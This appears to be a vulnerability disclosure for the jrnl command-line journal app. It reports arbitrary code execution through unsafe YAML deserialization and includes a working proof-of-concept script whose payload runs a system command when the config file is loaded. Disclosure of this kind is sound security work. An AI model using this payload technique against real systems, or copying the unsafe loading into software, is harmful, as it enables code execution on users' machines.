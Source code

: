 # Description 

`jrnl` is a simple journal application for the command line., which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip install jrnl
```

### Run exploit.py
```
import os
#os.sysem('pip3 install jrnl')
from jrnl import config
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
config.load_config('config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
